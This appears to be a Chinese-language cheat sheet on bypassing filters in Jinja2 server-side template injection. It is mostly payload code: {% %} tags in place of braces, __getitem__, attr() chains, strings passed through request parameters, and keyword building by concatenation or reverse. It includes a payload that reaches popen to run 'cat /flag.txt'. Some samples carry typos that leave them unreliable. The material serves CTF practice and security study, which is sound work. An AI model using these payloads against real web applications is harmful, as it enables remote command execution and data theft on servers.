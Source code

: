 ### 绕过
#### 双大括号
&emsp;&emsp;双大括号被过滤，可尝试{% if 2>1 %}glory{%endif%}能否正常执行，通过则可以用
```
{%if "".__class__.__base__.....}glory{% endif %}
```

#### 中括号
&emsp;&emsp;中括号被过滤，可尝试__getitem__()来代替[],类似于
```
{{".__class__.__base__.subclasses__90.__getitem__(1)}}
```

#### 单双引号
&emsp;&emsp;单双引号被过滤，可尝试<font color=red>request.args.GET参数或request.form.POST参数</font>来进行绕过,类似于
```
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.a](request.form.b).read()}}&a=popen&b=cat /flag.txt
```
#### 下划线
&emsp;&emsp;同理可以使用request创建一个变量，在变量里面使用下划线。  
&emsp;&emsp;使用unicode，base64编码或者16位编码。  
&emsp;&emsp;格式化字符串。  

#### 点
&emsp;&emsp;可以使用中括号[]代替点，类似于
```
{{()['__class__']['__base__']......}}  
```
&emsp;&emsp;可以使用attr()函数,类似于
```
{{()|attr('__class__')|attr('__base__')......}}  
```

#### 关键字
##### "+"拼接
&emsp;&emsp;类似于
```
{{()['__cl'+'ass__']}}
```

##### jinjia2中的"~"拼接
&emsp;&emsp;类似于
```
{%set a='__cla'%}{%set b='ss__'%}{{()[a~b]}}  
```

##### reverse
&emsp;&emsp;类似于
```
{%set a="__ssalc__"|reverse%}{{()[a]}}  
```
